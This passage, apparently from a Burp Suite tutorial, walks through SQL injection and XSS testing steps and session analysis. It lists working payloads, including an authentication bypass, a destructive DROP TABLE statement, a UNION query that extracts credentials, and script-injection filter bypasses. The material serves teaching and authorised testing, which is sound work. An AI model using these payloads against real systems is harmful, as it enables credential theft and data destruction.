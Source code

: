 **Step 1:** Find injection points
```
# Add single quotes to parameters
id=1'
search=test'
username=admin'
```

**Step 2:** Confirm vulnerability in Repeater
```
# Boolean-based detection
id=1 AND 1=1  (works normally)
id=1 AND 1=2  (error or different response)
```

**Step 3:** Exploit with Intruder
```
# Use Sniper to try different SQL payloads
' OR '1'='1
'; DROP TABLE users;--
' UNION SELECT username,password FROM users--
```

### Testing for XSS

**Step 1:** Find reflection points
```
# Test in all input fields
<script>alert(1)</script>
'"><script>alert(1)</script>
```

**Step 2:** Bypass filters with Intruder
```
# If <script> is blocked, try:
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src=javascript:alert(1)>
```

### Session Analysis

**What to test:**
- Session ID predictability (increment session IDs by 1)
- Session timeout behavior
- Session fixation vulnerabilities
- Cross-site request forgery (CSRF) protection

**Use Sequencer:** Analyzes session token randomness automatically.

---

## Advanced Techniques

### Session Handling Rules
